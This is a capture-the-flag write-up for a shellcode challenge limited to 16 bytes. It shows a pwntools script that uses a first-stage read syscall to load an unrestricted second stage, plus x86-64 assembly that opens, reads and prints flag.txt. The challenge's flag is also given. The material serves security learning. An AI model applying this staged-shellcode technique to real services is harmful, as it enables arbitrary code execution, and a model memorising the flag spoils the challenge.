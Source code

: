 ## `CPSC233 Assignment 3`
### Problem Description
- Author: aynakeya
    - CPSC233 Assignment 3 Instruction
    - Practice shellcode writing with length limit.
    - (seems like anti-cheat didn't work properly, we've removed it from our system)

### Solution
Now we *only* get 16 bytes for our function. We can't do what we did in A2 anymore....or can we?

This took me significantly longer to figure out, because I did one step more than I actually needed to do....

![](https://cdn.frankerfacez.com/emoticon/510861/4)

Anyway, we can actually get around the 16 byte restriction by doing....*another* `read` from `stdin`, from which we can write arbitrarily long functions. However, we need to `read` into the address immediately after the `syscall`, which wasn't too hard to figure out (`0x233300f`).

```python
io = start()
shellcode = asm(shellcraft.read(0, 0x233300f, 0x1000))
...
io.sendlineafter(b"here: ", shellcode.hex().encode())
```

After this, we can write whatever we want:

```python
your_asm_code_here = """
sub rsp, 9 # open
movabs rax, 0x7478742e67616c66 # "flag.txt"
mov QWORD PTR [rsp], rax # write that to the stack
mov BYTE PTR [rsp+8], 0x0 # null termination!
mov rax, 2 # open
mov rdi, rsp # address of fp is rsp :)
mov rsi, 0
syscall
add rsp, 9 # restore the stack

mov rdi, rax # copy fd
mov r8, rdi # save fd to close later
mov rax, 0 # read
sub rsp, 0x400 # allocate space on the stack
mov rsi, rsp # buffer
mov rdx, 1024
syscall

mov rdx, rax # read returns how many bytes is read, move this into arg for write
mov rax, 1 # write
mov rdi, 1 # stdout
mov rsi, rsp # buffer
syscall

add rsp, 0x400 # restore stack
mov rdi, r8 # restore fd into rdi
mov rax, 3 # close
syscall

ret
"""
shellcode2 = asm(your_asm_code_here)
io.sendline(shellcode2)
io.recvline()
print(io.recvline()[:-15].decode())
io.close()
```

### Flag: `maple{r34d_5h3llc0d3_u51n6_5h3llc0d3}`